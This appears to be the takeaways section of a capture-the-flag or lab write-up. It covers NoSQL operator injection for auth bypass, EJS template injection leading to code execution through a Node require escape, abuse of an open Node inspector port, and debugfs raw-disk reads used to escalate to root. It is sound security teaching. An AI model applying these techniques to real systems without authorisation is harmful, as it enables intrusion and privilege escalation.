- **NoSQL injection** is easy to miss if you're only thinking in SQL terms — sending a JSON body with MongoDB operators (`$ne`, `$gt`, `$regex`) instead of plain strings can bypass authentication when the backend doesn't validate input types.
- **SSTI severity depends entirely on what's user-controlled.** A feature that lets a "staff" role submit a raw template (not just fill in a variable) turns EJS from a rendering engine into a code execution primitive.
- **`require` is module-scoped in Node**, so escaping into `global.process.mainModule.require(...)` is the standard workaround needed for SSTI/sandbox-escape payloads to reach `child_process`.
- **The Node.js Inspector Protocol (`--inspect`) is effectively a debug backdoor** if left open, even bound to localhost — any local user who can reach that port can attach and execute arbitrary JS in the target process's context, inheriting that process's privileges.
- **`debugfs` on a raw block device bypasses normal file permissions entirely**, since it reads disk blocks directly instead of going through the kernel's permission checks — direct read access to the underlying device is functionally equivalent to root-level file read access.
- Chaining low-privilege footholds (web → poolside → pipelinesvc → root) reinforced the value of enumerating **every** running process and its arguments (`ps aux`), not just the obvious web app.